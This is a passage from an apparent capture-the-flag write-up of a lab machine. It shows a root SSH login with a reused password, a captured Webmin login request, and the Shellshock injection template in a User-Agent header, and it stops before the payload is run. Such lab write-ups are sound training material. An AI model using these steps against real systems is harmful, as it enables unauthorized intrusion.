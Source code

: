 

## SSH as root \[Path #3\]

It's normal for the root login for webmin to be the root account
password, and that is the case here, as the "jEhdIekWmdjE" password
works for SSH as root:



    root@kali# ssh root@10.10.10.7
    root@10.10.10.7's password:
    Last login: Fri Aug 25 18:05:54 2017

    Welcome to Elastix
    ----------------------------------------------------

    To access your Elastix System, using a separate workstation (PC/MAC/Linux)
    Open the Internet Browser using the following URL:
    http://10.10.10.7

    [root@beep ~]#



## Shellshock \[Path #4\]

If I assume for a second that I didn't have the root password, I could
take some guesses trying to login to webmin. When I try to login, it
create a POST request to `/session_login.cgi`:



    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 28
    Origin: https://10.10.10.7:10000
    DNT: 1
    Connection: close
    Referer: https://10.10.10.7:10000/
    Cookie: testing=1; sid=x
    Upgrade-Insecure-Requests: 1

    page=%2F&user=root&pass=root



Any time there's CGI (*especially* on an old machine), it's time to look
for [ShellShock](https://en.wikipedia.org/wiki/Shell_shock). To test,
I'll kick the login request over to Repeater and replace the
`User-Agent` header with the Shellshock exploit string
`() { :; };[cmd]`, starting with a simple sleep:
